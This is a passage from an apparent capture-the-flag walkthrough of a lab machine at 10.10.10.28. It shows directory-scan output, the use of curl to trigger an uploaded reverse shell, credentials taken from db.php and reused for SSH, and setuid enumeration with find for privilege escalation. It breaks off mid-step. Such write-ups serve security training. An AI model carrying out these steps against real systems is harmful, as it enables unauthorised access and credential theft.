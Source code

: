       [06:47:35] 403 -  276B  - /images/
      [06:47:35] 200 -   11KB - /index.php
      [06:47:35] 200 -   11KB - /index.php/login/
      [06:47:36] 301 -  307B  - /js  ->  http://10.10.10.28/js/
      [06:47:36] 403 -  276B  - /js/
      [06:47:39] 403 -  276B  - /server-status
      [06:47:39] 403 -  276B  - /server-status/
      [06:47:40] 301 -  311B  - /themes  ->  http://10.10.10.28/themes/
      [06:47:40] 403 -  276B  - /themes/
      [06:47:40] 403 -  276B  - /uploads/
      [06:47:40] 301 -  312B  - /uploads  ->  http://10.10.10.28/uploads/

The interesting folder seems to be `/uploads/`.

When we uploaded the reverse shell, we need to trigger it. We can do this mainly in two manners:
* Visit http://10.10.10.28/uploads/shell.php
* Execute `curl http://10.10.10.28/uploads/shell.php`

If you receive a "Not Found" message, try to re-upload again because probably shell.php has been cleaned by the host.

    
Phase 3: Lateral Movement
--
Move to listener and check if it is connected with the victim machine. From here, try to surf folders and files for searching something of interesting. One nice file is `db.php` in `/var/www/html/cdn-cgi/login`. It contains `robert` credentials. We can use this credential to access to the host by ssh:
    
    ssh robert@10.10.10.28

If we move to `/home/robert/`, we can find the first flag.

Phase 4: Privilege Escalation
--
Now we need to escalate privileges. Usually, in a Linux machine, it is possible to execute commands on behalf of root user by using all those executable files with setuid enabled and that allow us to execute commands as our current user.
    
For identifying all the files with setuid enabled, we can execute:
    
    $find / -user root -perm -4000 2>/dev/null
    
or
    $find / -user root -perm -u=s 2>/dev/null   

NOTE: the usage of `2>/dev/null` does not show "Permission denied" errors.
By the results, we see `/usr/bin/bugtracker`. Furthermore, the id command reveals that robert is a member of the bugtracker group:
    
    robert@oopsie:~$ id
    uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
    
    robert@oopsie:~$ find / -type f -group bugtracker 2> /dev/null
    /usr/bin/bugtracker

So we can use bugtracker.
If we perform  `strings /usr/bin/bugtracker`, in the output we can see:
